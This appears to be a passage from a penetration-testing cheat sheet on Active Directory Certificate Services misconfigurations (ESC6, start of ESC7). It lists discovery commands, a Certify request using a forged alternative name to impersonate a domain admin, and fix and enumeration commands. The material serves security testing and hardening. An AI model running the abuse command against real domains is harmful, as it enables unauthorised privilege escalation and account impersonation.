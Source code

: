 ### `EDITF_ATTRIBUTESUBJECTALTNAME2` \(ESC6\) <a id="editf_attributesubjectaltname2-esc-6"></a>

> If this flag is set on the CA, any request \(including when the subject is built from Active Directory\) can have user defined values in the subject alternative name.

This means that an adversary can enroll in **any** template configured for domain authentication that also allows unprivileged users to enroll \(e.g., the default `User` template\) and obtain a certificate that allows to authenticate as a domain admin or any other active user/machine.

Discover with certutil:

```text
Cmd > certutil.exe -config "CA01.megacorp.local\CA01" -getreg "policy\EditFlags"
Or
Cmd > reg.exe query \\CA01.megacorp.local\HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\CertSvc\Configuration\CA01\PolicyModules\CertificateAuthority_MicrosoftDefault.Policy\ /v EditFlags
```

Discover with Certify:

```text
Cmd > .\Certify.exe find
```

To abuse request a certificate specifying an `/altname` with any template that allows for domain auth \(e.g., the default `User` template which normally doesn't allow to specify alternative names\):

```text
Cmd > .\Certify.exe request /ca:CA01.megacorp.local\CA01 /template:User /altname:DomAdmin
```

This setting can be set with domain admin's privileges like this \(_dangerous, do not do this!_\):

```text
Cmd > certutil.exe -config "CA01.megacorp.local\CA01" -setreg "policy\EditFlags" +EDITF_ATTRIBUTESUBJECTALTNAME2
```

Remove this setting:

```text
Cmd > certutil.exe -config "CA01.megacorp.local\CA01" -setreg "policy\EditFlags" -EDITF_ATTRIBUTESUBJECTALTNAME2
```

### Vulnerable CA ACEs \(ESC7\) <a id="vulnerable-ca-aces-esc-7"></a>

Enumarate CA ACEs with Powershell [PSPKI](https://github.com/PKISolutions/PSPKI):

```text
PS > Install-Module -Name PSPKI
PS > Import-Module PSPKI
PSPKI > Get-CertificationAuthority -ComputerName CA01.megacorp.local | Get-CertificationAuthorityAcl | select -ExpandProperty access
```

`ManageCA` and `ManageCertificates` rights translate to the "CA Administrator" and "Certificate Manager" \("CA Officer"\) respectively.
